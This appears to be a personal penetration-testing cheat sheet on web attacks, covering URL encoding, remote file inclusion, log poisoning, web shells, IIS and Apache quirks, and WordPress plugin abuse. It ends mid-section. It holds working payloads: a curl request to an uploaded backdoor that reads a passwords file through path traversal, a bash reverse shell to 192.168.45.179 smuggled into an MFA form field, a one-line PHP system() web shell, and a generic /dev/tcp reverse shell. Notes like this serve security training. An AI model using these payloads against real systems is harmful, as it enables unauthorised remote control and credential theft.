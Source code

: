 ### Encoding Notes (not sure)
Examples:	`%20 = " "` and `%5C = "\"` and `%2e = "."` and `%2f = "/"`
- Note: Don't encode the "-" character in flags, and it looks like "/" characters also don't need to be encoded. 
- https://www.urlencoder.org/
- EX: `curl http://$URL$.com/directory/uploads/backdoor.pHP?cmd=type%20..%5C..%5C..%5C..%5Cxampp%5Cpasswords.txt
	- where backdoor is the cmd script in the RFI section below that has already been uploaded to the Windows machine so that we can read the passwords.txt file.
	- When there is a username field, password field, and additional called MFA - From: "&&bash -c "bash -i >& /dev/tcp/192.168.45.179/7171 0>&1""
	- Becomes: `username=user1&password=pass1&ffa=testmfa"%26%26bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.179%2F7171%200%3E%261%22"`
	- So make sure to enclose command in `"&&$encondedCommand"` (incl. quotes).

#### LOG POISONING
<?php echo system($_GET['cmd']); ?>
Then submit `&cmd=$command`

#### Shells
- https://github.com/WhiteWinterWolf/wwwolf-php-webshell
- `bash -c "bash -i >& /dev/tcp/$IP/4444 0>&1"`
	- can URL encode
- revshells.com


### Specific Web Servers
#### Apache
This might need to be in the /etc/apache2/apache2.conf file for php to execute:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

#### IIS 
payload = .asp/.aspx shell

`C:\inetpub\wwwroot`
`iisstart.htm` = default welcome page


.htaccess for IIS servers: Similarly, developers can make directory-specific configuration on IIS servers using a web.config file. This might include directives such as the following, which in this case allows JSON files to be served to users:
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>


### Wordpress

Initial enumeration: `wpscan --url http://$url --api-token $APIToken`
`/wp-admin` is the admin login page.
#### reverse shell Wordpress plugin
If you get into the admin page, you can upload malicious plugins. Plugins are defined as a zip file with 2 php files inside. (This may not be true provided the below syntax info is included in the php exploit file - so one file total with this or two files - one with this and one with the exploit). Syntax below:
